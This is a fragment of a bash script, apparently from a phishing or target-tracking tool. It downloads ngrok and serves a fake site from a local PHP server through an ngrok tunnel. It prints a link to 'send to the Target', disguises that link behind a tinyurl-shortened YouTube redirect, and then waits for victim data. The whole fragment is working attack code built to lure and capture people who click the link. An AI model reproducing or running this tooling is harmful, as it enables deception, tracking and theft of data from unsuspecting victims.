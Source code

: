 

else
wget --no-check-certificate https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1 
if [[ -e ngrok-stable-linux-386.zip ]]; then
unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
chmod +x ngrok
rm -rf ngrok-stable-linux-386.zip
else
printf "\e[1;93m[!] Download error... \e[0m\n"
exit 1
fi
fi
fi

printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n"
cd sites/$server && php -S 127.0.0.1:3333 > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m*\e[1;92m] Starting ngrok server...\n"
./ngrok http 3333 > /dev/null 2>&1 &
sleep 10

link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io")
printf "\e[1;92m[\e[0m*\e[1;92m] Send this link to the Target:\e[0m\e[1;77m %s\e[0m\n" $link
send_ip=$(curl -s "http://tinyurl.com/api-create.php?url=https://www.youtube.com/redirect?v=636B9Qh-fqU&redir_token=j8GGFy4s0H5jIRVfuChglne9fQB8MTU4MjM5MzM0N0AxNTgyMzA2OTQ3&event=video_description&q=$link" | head -n1)
#send_ip=$(curl -s http://tinyurl.com/api-create.php?url=$send_link | head -n1)
printf '\n\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Or using tinyurl:\e[0m\e[1;77m %s \n' $send_ip
printf "\n"

checkfound
}

start1() {
if [[ -e sendlink ]]; then
rm -rf sendlink
fi


printf "\n"
printf "\e[1;92m[\e[0m\e[1;77m01\e[0m\e[1;92m]\e[0m\e[1;93m Serveo.net (SSH Tunelling, Best!)\e[0m\n"
printf "\e[1;92m[\e[0m\e[1;77m02\e[0m\e[1;92m]\e[0m\e[1;93m Ngrok\e[0m\n"
default_option_server="1"
read -p $'\n\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Choose a Port Forwarding option: \e[0m\en' option_server
option_server="${option_server:-${default_option_server}}"
if [[ $option_server == 1 || $option_server == 01 ]]; then
startx

elif [[ $option_server == 2 || $option_server == 02 ]]; then
start
else
printf "\e[1;93m [!] Invalid option!\e[0m\n"
sleep 1
clear
start1
fi
